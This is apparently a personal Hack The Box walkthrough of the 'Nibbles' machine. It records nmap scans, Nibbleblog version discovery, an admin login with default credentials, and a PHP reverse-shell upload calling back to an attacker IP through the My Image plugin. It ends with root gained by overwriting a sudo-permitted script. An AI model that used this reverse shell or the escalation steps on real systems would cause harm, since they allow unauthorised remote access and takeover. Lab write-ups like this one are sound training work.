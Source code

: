 - ping machine
	- alive
```bash
┌──(kali㉿kali)-[~/htb/nibbles]
└─$ ping 10.10.10.75                                      
PING 10.10.10.75 (10.10.10.75) 56(84) bytes of data.
64 bytes from 10.10.10.75: icmp_seq=1 ttl=63 time=57.1 ms
64 bytes from 10.10.10.75: icmp_seq=2 ttl=63 time=53.1 ms
^C
--- 10.10.10.75 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 53.058/55.100/57.142/2.042 ms
```
- nmap for open ports
	- 22 
	- 80
```bash
┌──(kali㉿kali)-[~/htb/nibbles]
└─$ nmap -p- -T4 --open -vvv -Pn 10.10.10.75 -oN nibblesOpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 11:43 EST
Initiating Parallel DNS resolution of 1 host. at 11:43
Completed Parallel DNS resolution of 1 host. at 11:43, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 11:43
Scanning 10.10.10.75 [65535 ports]
Discovered open port 80/tcp on 10.10.10.75
Discovered open port 22/tcp on 10.10.10.75
Completed SYN Stealth Scan at 11:44, 17.70s elapsed (65535 total ports)
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.054s latency).
Scanned at 2024-11-23 11:43:56 EST for 18s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 17.84 seconds
           Raw packets sent: 65571 (2.885MB) | Rcvd: 65541 (2.622MB)
```
- nmap for services and versions running on open ports
- 22 ssh OpenSSH 7.2p2
- 80 Apache httpd/2.4.18
```bash
┌──(kali㉿kali)-[~/htb/nibbles]
└─$ nmap -p 22,80 -sC -sV -vvv 10.10.10.75 -oN nibbleServicesVersions
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-23 11:48 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:48
Completed NSE at 11:48, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:48
Completed NSE at 11:48, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:48
Completed NSE at 11:48, 0.00s elapsed
Initiating Ping Scan at 11:48
Scanning 10.10.10.75 [4 ports]
Completed Ping Scan at 11:48, 0.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:48
Completed Parallel DNS resolution of 1 host. at 11:48, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 11:48
Scanning 10.10.10.75 [2 ports]
Discovered open port 80/tcp on 10.10.10.75
Discovered open port 22/tcp on 10.10.10.75
Completed SYN Stealth Scan at 11:48, 0.08s elapsed (2 total ports)
Initiating Service scan at 11:48
Scanning 2 services on 10.10.10.75
Completed Service scan at 11:49, 6.12s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.75.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 1.84s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.24s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Nmap scan report for 10.10.10.75
Host is up, received echo-reply ttl 63 (0.058s latency).
Scanned at 2024-11-23 11:48:55 EST for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:49
Completed NSE at 11:49, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.83 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```
- Navigating to ip reveals nibbleblog as the CMS
![[Pasted image 20241123122432.png]]
- Adding nibbleblog to end of ip address reveals a blog
![[Pasted image 20241123122618.png]]
- Gobuster to enumerate the website using the nibbleblog endpoint reveals
	- content
	- themes
	- admin
	- plugins
	- languages
- We know that nibbleblog is the CMS but we cannot find the version #.
	- To discover the version# we can download nibbleblog source code from [sourceforge](https://sourceforge.net/projects/nibbleblog/)
	- unzip to nibbleblog dir 
	- grep it for version 4.0.5 to discover where that info is located
		- `grep -R 4\.0\.5`
		- last result from the grep 
		- `./admin/boot/rules/98-constants.bit:define('NIBBLEBLOG_VERSION','4.0.5');`
	- navigating to http://10.10.10.75/nibbleblog/admin/boot/rules/98-constants.bit
		- we discover the nibbleblog version being used
	![[Pasted image 20241123144314.png]]

- Search for exploits, RCEs, etc on service's versions running on those open ports
	- searching for nibbleblog 4.0.3 vulns we find NibbleBlog version 4.0.3 suffers from a authenticated shell upload vulnerability. https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html
	- so we have to come back to this after we have credentials
		- upload rev shell at http://10.10.10.75/nibbleblog/plugins/my_image/plugin.bit
		- access uploaded images at http://localhost/nibbleblog/content/private/plugins/my_image/image.php

- Revisiting the nibbleblog source code and files we see an admin.php
```bash
┌──(kali㉿kali)-[~/htb/nibbles/nibbleblog-v4.0.5]
└─$ ls           
admin      content        feed.php   install.php  LICENSE.txt  sitemap.php  update.php
admin.php  COPYRIGHT.txt  index.php  languages    plugins      themes
```
- Navigating to http://10.10.10.75/nibbleblog/admin.php we see the admin login panel
![[Pasted image 20241123154735.png]]
- The default password for Nibbleblog is admin:nibbles
- After logging into the admin panel 
- activate the My Image plugin
- Nibbleblog runs on php so we grab a php reverse shell
- from revshells https://www.revshells.com/
```bash
<?php
$sock=fsockopen("10.10.14.9",42069);exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
- start nc listener 
	- `nc -lnvp 42069`
- upload with the my image plugin @ 
	- `http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image`
- navigate to the image location
	- `http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php`
	- nc should grab the shell
- `cd /home/nibbler`
- `cat user.txt`

- sudo -l reveals that /home/nibbler/personal/stuff

- `unzip personal.zip`
- `cd personal`
- `cd stuff`
- wipe contents from monitor.sh
- add #!/bin/bash to file
```bash
#!/bin/bash
bash
```
- run `sudo /home/nibbler/personal/stuff/monitor.sh`
- cd to #
- `cat root.txt`





